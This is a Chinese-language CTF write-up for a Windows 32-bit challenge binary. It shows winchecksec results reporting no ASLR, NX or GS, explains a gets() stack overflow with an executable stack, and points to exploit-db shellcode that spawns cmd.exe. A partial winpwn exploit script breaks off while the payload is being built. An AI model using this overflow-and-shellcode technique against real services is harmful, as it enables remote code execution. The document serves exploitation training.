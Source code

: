 

#### 题目分析

检查保护，在下好的winchecksec的目录中找到`build\Release\winchecksec.exe`

 ```
> winchecksec.exe C:\Users\origi\Desktop\chall.exe
Warn: No load config in the PE
Results for: C:\Users\origi\Desktop\chall.exe
Dynamic Base    : "NotPresent"
ASLR            : "NotPresent"
High Entropy VA : "NotPresent"
Force Integrity : "NotPresent"
Isolation       : "Present"
NX              : "NotPresent"
SEH             : "Present"
CFG             : "NotPresent"
RFG             : "NotPresent"
SafeSEH         : "NotPresent"
GS              : "NotPresent"
Authenticode    : "NotPresent"
.NET            : "NotPresent"
 ```

逆向分析发现直接gets栈溢出，虽然开启了SEH，但是这题并不用异常处理，直接就可以注入shellcode执行。

一开始用Linux下栈溢出的思路泄露地址再算偏移ROP，但是Windows下的dll版本太杂了，主要的利用手法应该在于shellcode。在IDA中可以找到VirtualProtect函数在导出表中的位置，一般可以通过ROP调用VirtualProtect函数修改地址空间的权限，再执行写入的shellcode，但是本题栈上直接就是可执行的，直接写shellcode到一块内存跳转执行即可

需要注意的是gets溢出又\x0a截断，可以在[exploit database](https://www.exploit-db.com/exploits/42016)找到没有坏字符的shellcode，由于程序是挂载到端口上的，直接执行cmd.exe就可以get shell

```python
from winpwn import *
import os
import traceback
import sys
import socket

context.log_level = 'debug'
context.arch = 'amd64'
context.arch = 'i386'

def get_sh():
    if len(sys.argv) > 1 and sys.argv[1] == 'REMOTE':
        return remote(sys.argv[2], sys.argv[3])
    else:
        return process(r"C:\Users\origi\Desktop\chall.exe")


def get_gdb(sh, stop=False):
    x64dbg.attach(sh)


def Attack(sh=None, ip=None, port=None):
    if ip != None and port != None:
        try:
            sh = remote(ip, port)
        except:
            return 'ERROR : Can not connect to target server!'
    try:
        sh.recvuntil('Enter your name:')
        bss = 0x405040
        payload = 'a' * 28
        payload += p32(0) # ebp
        
```